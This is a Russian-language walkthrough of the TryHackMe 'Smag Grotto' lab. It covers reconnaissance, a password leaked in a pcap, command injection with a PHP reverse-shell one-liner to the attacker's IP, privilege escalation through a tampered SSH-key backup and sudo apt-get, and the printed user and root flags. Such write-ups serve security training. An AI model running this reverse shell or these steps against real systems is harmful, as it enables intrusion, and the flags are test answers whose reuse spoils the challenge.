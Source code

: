 # TryHackMe: Smag Grotto

## Task 1: Smag Grotto
```sh
nmap -sC -sV 10.10.73.169
```

![ScreenShot](screenshots/1.png)

Мы нашли:
- 22 port - SSH (OpenSSH 7.2p2)
- 80 port - HTTP (Apache httpd 2.4.18)

Зайдем на сайт, который располагается на порте 80:

![ScreenShot](screenshots/2.png)

Попробуем найти другие директории сайта при помощи **dirsearch**:

![ScreenShot](screenshots/3.png)

Находим директорию **/mail**:

![ScreenShot](screenshots/4.png)

Среди всего прочего находим **.pcap** файл. Скачаем его и откроем в **Wireshark**:

![ScreenShot](screenshots/5.png)

Среди захваченных пакетов находим пакет, внутри которого находится POST-запрос с передаваемыми данными:
- "username" - "helpdesk"
- "password" - "cH4nG3M3_n0w"

![ScreenShot](screenshots/6.png)

Теперь вопрос заключается в правильности этих данных:

![ScreenShot](screenshots/7.png) 

Как видим, response code - 200, значит, при помощи этих данных кто-то смог авторизоваться на сайте. Также в разделе **Request URI** можно заметить доменное имя - **development.smag.thm**. Внесем его в файл **/etc/hosts**:
 
![ScreenShot](screenshots/8.png)

Перейдем теперь на сайт:

![ScreenShot](screenshots/9.png)

Подразумеваю, что для того, чтобы попасть на вкладку **admin.php**, нужно пройти аутентификацию на **login.php**. Данные для входа мы нашли ранее:

![ScreenShot](screenshots/10.png)

Вот мы и на странице **admin.php**:

![ScreenShot](screenshots/11.png)

Видим, что мы можем ввходить команды. Проверим это через Wireshark (на tun0). Попробуем произвести ping на нашу хостовую машину:

![ScreenShot](screenshots/12.png)

![ScreenShot](screenshots/13.png)

Как можно заметить, ICMP-запросы успешно получают от нас ответы. В таком случае пойдем дальше и попробуем реализовать reverse shell. Для начала поставим порт 4444 на прослушивание:

![ScreenShot](screenshots/14.png)

Сайт написан на php, поэтому php должен быть нам доступен. Формируем правильную команду:
```sh
php -r '$sock=fsockopen("<tun0 IP-address>",4444);exec("/bin/bash -i <&3>&3 2>&3");'
```

![ScreenShot](screenshots/15.png)

Запускаем команду к исполнению и видим, что она успешно отработала и вернула нам shell:

![ScreenShot](screenshots/16.png)

Как удалось выяснить далее, в системе присутствует пользователь **jake**. Первый флаг, находящийся в его директории нам пока что недоступен. 

![ScreenShot](screenshots/17.png)

Находим некие ключи в директории **/var/tmp**:

![ScreenShot](screenshots/18.png)

Но нас пока что это ни к чему толком не привело. Далее были просмотрены задачи в crontab:

![ScreenShot](screenshots/19.png)

Находим команду, которая из backup'а формирует ssh-ключи для пользователя **jake**. Собственно, надо подменить backup, чтобы оттуда подтягивалось то, что нам нужно. Проанализируем содержимое файла **/opt/.backups/jake_id_rsa.pub.backup**:

![ScreenShot](screenshots/20.png)

Попробуем заменить данный ключ на наш собственный. Первым, делом сгенерируем его:

![ScreenShot](screenshots/21.png)

![ScreenShot](screenshots/22.png)

Далее, изменим содержимое непосредственно в backup-файле:

![ScreenShot](screenshots/23.png)

Пробуем подключиться по SSH при помощи созданного нами ключа:

![ScreenShot](screenshots/24.png)

И да! Мы имеем доступ от имени пользователя jake, поэтому забираем первый флаг:

![ScreenShot](screenshots/25.png)

### Question 1: What is the user flag? - iusGorV7EbmxM5AuIe2w499msaSuqU3j

Далее посмотрим, какие команды мы можем выполнять относительно sudo:

![ScreenShot](screenshots/26.png)

Видим, что мы можем использовать **apt-get**. Посмотрим, возможно ли, используя данную команду получить привилегированный доступ (GTFORBins):

![ScreenShot](screenshots/27.png)

Применяем нужную нам команду и получаем root'а:

![ScreenShot](screenshots/28.png)

Забираем root-флаг:

![ScreenShot](screenshots/29.png)

### Question 2: What is the user root? - uJr6zRgetaniyHVRqqL58uRasybBKz2T
